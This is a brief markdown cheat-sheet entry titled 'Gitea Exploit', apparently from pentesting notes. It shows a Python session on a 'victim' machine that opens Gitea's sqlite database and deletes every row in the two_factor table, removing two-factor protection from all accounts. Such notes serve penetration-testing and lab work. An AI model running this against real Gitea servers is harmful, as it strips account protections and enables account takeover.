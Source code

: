 ```yaml
---
title: Gitea Exploit
desc: Exploit Gitea.
tags: [Linux]
alts: []
website:
render_with_liquid: false
---
```


## Delete Two-Factor

```sh
victim@machine:/gitea/gitea$ python3

>>> import sqlite3
>>> conn=sqlite3.connect('gitea.db')
>>> conn.execute('delete from two_factor')
>>> conn.commit()
>>> conn.close()
```